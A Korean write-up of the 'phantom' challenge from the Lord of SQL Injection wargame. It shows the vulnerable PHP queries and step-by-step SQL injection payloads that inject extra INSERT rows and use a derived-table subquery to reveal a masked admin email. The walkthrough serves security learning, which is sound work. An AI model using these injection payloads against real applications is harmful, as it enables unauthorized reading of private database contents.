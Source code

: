 ```yaml
---
title: LOS - 29번 phantom
category: Lord of SQL Injection
---
```


# [29] phantom

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fzr5Q9%2FbtrpdnYOpmd%2FUYAy063HqOaz1BC4eWUew0%2Fimg.png">

## 풀이

no=1 레코드의 email을 찾는 문제이다.

<br>

먼저, 준비된 쿼리문을 보겠다.

```php
$query = "insert into prob_phantom values(0,'{$_SERVER[REMOTE_ADDR]}','{$_GET[joinmail]}')";
```

쿼리문으로부터 추측할 수 있는 바는 다음과 같다.

1. 첫 컬럼의 데이터로 0이 들어가는 것으로 보아, no는 AUTO_INCREMENT PRIMARY KEY로 추정할 수 있다.

2. 접속한 ip와 joinmail을 매칭하여 저장함을 알 수 있다.

<br>

다음은 표가 출력되는 과정을 보겠다.

```php
$rows = mysqli_query($db,"select no,ip,email from prob_phantom where no=1 or ip='{$_SERVER[REMOTE_ADDR]}'");
echo "<table border=1><tr><th>ip</th><th>email</th></tr>";
while(($result = mysqli_fetch_array($rows))){
if($result['no'] == 1) $result['email'] = "**************";
echo "<tr><td>{$result[ip]}</td><td>".htmlentities($result[email])."</td></tr>";
}
echo "</table>";
```

1. no=1이거나, ip=[접속한 ip] 인 레코드를 표로 출력한다.

2. no=1인 경우, email을 **************로 바꾸어 표시한다.

<br>

목표는 no=1의 email을 알아내는 것이기에, 접근 방법을 고민해봤다.

preg_match를 보면 duplicate를 필터링하고 있는데, 이는 ON DUPLICATE UPDATE를 걸러내고자 하는 듯 했다.

ON DUPLICATE UPDATE는 PRIMARY KEY가 중복되는 레코드가 들어갈 시 기존의 레코드를 삭제하고 새로운 레코드가 그 자리를 대체하게끔 하는 구문이다.

만약 이 구문을 필터링하고 있지 않았다면, no=1인 새로운 레코드를 넣음으로써 문제를 간단히 해결할 수 있었을 것이다.

그래서 중복 레코드를 관리하는 다른 방법에 대해서도 찾아봤는데, 이 상황에서 쓸 수 있을 만한 방법은 보이지 않았다.

ex) INSERT IGNORE, REPLACE INTO

<br>

따라서 여러개의 레코드를 동시에 INSERT하는 방법을 생각했다.

이는 다음과 같이 VALUES 뒤에 괄호로 묶인 여러개의 레코드를 나열함으로써 수행 가능하다.

```sql
INSERT INTO [테이블명] VALUES(1, 1, 1), (2, 2, 2), (3, 3, 3);
```

<br>

이후의 풀이 과정은 다음과 같다.

<br>

[1] 여러 개 INSERT + 서브쿼리 확인

```
?joinmail=choco'), (0, '[접속한 ip]', (select 1 where 1=1)) %23
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FWWusj%2FbtrpcOvEW0j%2FCKRrL1LG8KK45BCRzku1s1%2Fimg.png">

정상적으로 실행되어 choco와 1이 INSERT 된 것을 확인할 수 있다.

서브쿼리가 먹히는 것을 확인했으니, 그 자리에 no=1의 email을 넣어주면 **************로 바뀌기 전의 진짜 email을 쉽게 확인할 수 있을 것 같았다.

<br>

[2] 서브쿼리에 원하는 작업 적용해보기

```
?joinmail=choco'), (0, '[접속한 ip]', (select email from prob_phantom where no=1)) %23
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcPyesx%2Fbtrpjw8kHkz%2FhtWK7skuvlKMQKtwDffWb0%2Fimg.png">

음... 안된다.

Syntax가 잘못되었나 싶어서 별의 별 베리에이션을 다 시도해봤지만 하나같이 다... 안됐다.

1=1, 1=2 등의 기본적인 조건이 적용된 서브쿼리는 문제없이 실행되었지만, prob_phantom 테이블안의 기존 레코드에 접근하려고 하기만 하면 아무 반응도 볼 수가 없었다.

한참 고통받다가... 문득 의심이 들었다.

동일 테이블 안의 레코드에는 일반적인 서브쿼리로 접근할 수 없나?

[[SQL] 동일(같은) 테이블 서브쿼리](https://do-hansung.tistory.com/9)

그것이 맞았다...;

그래서 페이로드를 아래와 같이 바꿔주었다.

<br>

[3] 최종 페이로드

```
?joinmail=choco'), (0, '[접속한 ip]', (select * from (select email from prob_phantom where no=1) as temp)) %23
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbGnBZW%2Fbtro8x2ffmQ%2FjoSP2d93AeOTRHD68HHL61%2Fimg.png">

결과적으로, no=1 레코드의 email은 `admin_secure_email@rubiya.kr` 임을 확인할 수 있었다.


## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbJxRyo%2FbtrpkuvB2eU%2FdKEOvRoSJ5Qb0r8Ydw1YI0%2Fimg.png">